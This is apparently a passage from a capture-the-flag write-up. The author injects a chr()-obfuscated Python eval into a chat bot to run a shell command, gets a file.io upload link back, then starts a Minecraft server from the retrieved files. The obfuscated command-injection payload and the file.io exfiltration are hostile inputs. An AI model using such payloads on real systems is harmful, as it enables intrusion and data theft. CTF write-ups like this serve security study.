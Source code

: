 	<You>: eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(111)+chr(117)+chr(116)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41))

	<Krampus>: {"success":true,"key":"isw6QJ","link":"https://file.io/isw6QJ","expiry":"14 days"}0


Phew, that was a tough ride. Finally we have the contents downloaded

> [derp3.zip.zip](derp3.zip.zip)

### Play the Game

Start the JAR and we see this. Typical Minecraft LAN server. 

![screenshot/ss1.png](screenshot/ss1.png)

	$ java -jar server.jar
	[19:13:30 INFO]: Starting minecraft server version 1.12.2
	[19:13:30 INFO]: Loading properties
	[19:13:30 INFO]: Default game type: ADVENTURE
	[19:13:30 INFO]: Generating keypair
	[19:13:30 INFO]: Starting Minecraft server on *:25565
	[19:13:30 INFO]: Using default channel type
	[19:13:31 WARN]: **** SERVER IS RUNNING IN OFFLINE/INSECURE MODE!
	[19:13:31 WARN]: The server will make no attempt to authenticate usernames. Beware.
	[19:13:31 WARN]: While this makes the game possible to play without internet access, it also opens up the ability for hackers to connect with any username they choose.
	[19:13:31 WARN]: To change this, set "online-mode" to "true" in the server.properties file.
	[19:13:31 WARN]: Failed to save user banlist: 

[We need to connect to it](https://minecraft.gamepedia.com/Tutorials/Setting_up_a_server#Connect_to_the_Minecraft_server)

---